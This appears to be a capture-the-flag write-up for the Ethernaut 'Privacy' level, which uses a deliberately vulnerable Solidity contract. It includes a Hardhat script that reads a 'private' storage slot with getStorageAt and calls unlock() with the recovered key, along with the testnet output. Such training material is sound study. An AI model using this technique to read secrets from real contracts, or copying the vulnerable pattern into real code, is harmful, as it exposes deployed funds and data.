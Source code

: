 ```yaml
---
title: Ethernaut Privacy
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Privacy challenge writeup
---
```


## Privacy

### Challenge

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

* Understanding how storage works
* Understanding how parameter parsing works
* Understanding how casting works

Tips:

* Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

### Background

This challegne is very similar to the `Valut` challenge. Private variables are not accessible by smart contracts, however, since the blockchain is public, anyone can check the value directly from the blockchain and use it. The only extra dificulty is to find the slot in use which will depend on the data types and how the final casting actually works. 

We should keep in mind that solidity will place things in the order they appear. If multiple things fit in a single slot then they will be merged together. This is because storage is very costly on the blockchain so its more efficient to spend some more type unpacking and repacking that using more storage.

### Attack

Somehow access the private `data[2]` array from the public blockchain and use it to call the `unlock` function.

* Determin at what slot offset the `data` array is placed
* Access the private `data[2]` value from the blockchain
* Cast the value to `bytes16` to obtain the `key`
* Submit the `key` using to `unlock` function to unlock the vault

#### privacy-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    privacyAddress = "0x7A3Bf7ea0d04150EA922e60eBB31ADD5A5bda357";
    contract = await ethers.getContractAt("Privacy", privacyAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("Vault locked : " + await contract.locked())

    // get private key value from storage
    paddedSlot = ethers.utils.hexZeroPad(5, 32);
    data_2 = await ethers.provider.getStorageAt(contract.address, paddedSlot);
    key = ethers.utils.hexDataSlice(data_2, 0, 16)
    console.log(key)

    // submit key
    tx = await contract.connect(account).unlock(key)
    receipt = await tx.wait()

    console.log("Vault locked : " + await contract.locked())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash$ npx hardhat run scripts/privacy-solve.js --network rinkeby
Level address: 0x7A3Bf7ea0d04150EA922e60eBB31ADD5A5bda357
Vault locked : true
0x234731fcb29d9babc1557784fc558a0b
Vault locked : false
```

### Success Message

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
